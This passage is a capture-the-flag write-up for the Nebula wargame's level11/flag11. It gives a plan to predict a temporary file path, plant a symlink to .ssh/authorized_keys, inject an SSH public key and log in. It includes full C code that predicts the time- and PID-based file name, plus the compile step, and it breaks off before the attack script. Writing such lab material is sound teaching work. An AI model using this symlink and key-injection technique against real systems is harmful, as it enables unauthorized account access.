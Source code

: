 ### The Plan
1. generate `SSH` `rsa` key pair
2. predict random `path`
3. write a `symlink` that points to `.ssh/authorized_keys`
4. start `flag11` and input a buffer `>= 1024 bytes` containing `\npublic key\n`
5. login using `private key` through `SSH`

### Writing The Exploit
This badboy will allow us to predict the path.

Notice the ability to tweak the `time_delay` and `pid_delay` as we will execute `flag11` later in our attack script.
```c
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdio.h>
#include <fcntl.h>

#define USAGE "Usage:\n\t%s time_delay pid_delay\n"

int main(int argc, char **argv)
{
    char *tmp;
    int pid;
    int fd;

    int time_delay;
    int pid_delay;

    if (argc < 3){
        printf(USAGE, argv[0]);
        return -1;
    }

    time_delay = atoi(argv[1]);
    pid_delay = atoi(argv[2]);

    srandom(time(NULL) + time_delay);

    tmp = getenv("TEMP");
    pid = getpid();

    printf("%s/%d.%c%c%c%c%c%c", tmp, pid + pid_delay,
            'A' + (random() % 26), '0' + (random() % 10),
            'a' + (random() % 26), 'A' + (random() % 26),
            '0' + (random() % 10), 'a' + (random() % 26));

    return 0;
}
```
Compile it.
```console
level11@nebula:~/exploit$ gcc getpath.c -o getpath
```
Now for the attack script.
